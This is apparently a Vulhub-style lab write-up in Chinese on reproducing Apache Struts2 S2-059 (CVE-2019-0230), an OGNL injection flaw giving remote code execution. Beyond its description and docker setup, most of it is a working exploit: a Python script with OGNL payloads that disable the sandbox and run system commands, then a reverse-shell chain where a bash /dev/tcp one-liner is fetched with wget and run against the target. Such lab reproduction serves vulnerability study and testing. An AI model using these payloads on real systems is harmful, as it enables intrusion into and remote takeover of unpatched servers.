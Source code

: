 # Apache Struts2 S2-059 远程代码执行漏洞 CVE-2019-0230

## 漏洞描述

Apache Struts 框架, 会对某些特定的标签的属性值，比如 id 属性进行二次解析，所以攻击者可以传递将在呈现标签属性时再次解析的 OGNL 表达式，造成 OGNL 表达式注入。从而可能造成远程执行代码。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-059
- https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776

## 漏洞影响

影响版本: Struts 2.0.0 - Struts 2.5.20

## 环境搭建

Vulhub 执行以下命令启动 Struts 2.5.16 s2-059 测试环境：

```
docker-compose build
docker-compose up -d
```

启动环境之后访问 `http://your-ip:8080/?id=1` 就可以看到测试界面

## 漏洞复现

访问 `http://your-ip:8080/?id=%25%7B233*233%7D`，可以发现 233*233 的结果被解析到了 id 属性中：

![image-20220302135315508](images/202203021353597.png)

《[OGNL Apache Struts exploit: Weaponizing a sandbox bypass (CVE-2018-11776)](https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776)》给出了绕过 struts2.5.16 版本的沙盒的 poc，利用这个 poc 可以达到执行系统命令。

通过如下 Python 脚本复现漏洞：

```python
import requests

url = "http://192.168.174.128:8080"
data1 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames(''))}"
}
data2 = {
    "id": "%{(#context=#attr['struts.valueStack'].context).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('touch /tmp/awesome_poc'))}"
}
res1 = requests.post(url, data=data1)
# print(res1.text)
res2 = requests.post(url, data=data2)
# print(res2.text)
```

执行 poc 之后，进入容器发现 `touch /tmp/awesome_poc` 已成功执行。

![image-20220302135633547](images/202203021356602.png)

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

执行 shell.sh 文件的命令为：

```
bash shell.sh
```

成功接收反弹 shell：

![image-20220302135809119](images/202203021358216.png)
